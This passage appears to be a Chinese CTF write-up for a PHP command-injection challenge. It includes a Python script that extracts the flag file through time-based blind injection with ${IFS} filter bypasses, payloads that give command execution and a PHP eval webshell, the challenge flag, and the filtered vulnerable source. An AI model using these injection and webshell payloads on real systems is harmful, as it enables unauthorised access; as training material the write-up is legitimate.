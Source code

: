 ```python
		print "Find."
		flaglen = count
		print count
		break
count = 0
for i in range(flaglen):
	count += 1
	sign = 0
	for letter in alphabet:
		payload = ''
		payload += 'a=`cut${IFS}-c${IFS}'
		payload += str(count)
		payload += '''${IFS}flag.txt`;${IFS}[${IFS}$a${IFS}=${IFS}"'''
		payload += letter
		payload += '''"${IFS}]${IFS}&&${IFS}sleep${IFS}3'''
		data = {'cmd':payload}
		a = time.time()
		r = requests.post(url,data=data)
		b = time.time()
		if (b-a)>2 :
			print "!!!!!!!!!!!!!!!!!!!!!!!!!!!!YES!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
			flag+=letter
			sign = 1
			print flag
			break
	if sign == 0:
		print "@@@@@@@@@@@@@@@@@@@@@ERROR@@@@@@@@@@@@@@@@@@@@@@@@@@"

print flag

```

在做出post1的情况下这道题就剩各种骚套路了

```bash
# 非预期，flag文件没有改名，访问pNHYVfirTGWAIygv.txt直接得flag

# 可得index.php源码和任意命令执行（有回显）
cmd=echo 'show_source("index.php");system("l"."s");'#cut

# 直接getshell
cmd=echo 'eval($_POST["t"]);'#cut
t=phpinfo();
```

本题flag

```
flag{WOw_Cut_4Nd_C4t_lo0kS_S4m3}
```

本题源码

```php
<?php 
    echo "POST[cmd] 这次我们玩过滤好了。"; 
    $b = $_POST['cmd']; 
    if (strpos($b,'cut') === false && isset($b)){ 
        die("没抓到重点"); 
    } 
    if (strpos($b,'ls') !== false){ 
        die("你挺能绕的...但不是这个意思啊..."); 
    } 
    if (strpos($b,'cat') !== false){ 
        die("你挺能绕的...但不是这个意思啊..."); 
    } 
    if (strpos($b,'rm') !== false){ 
```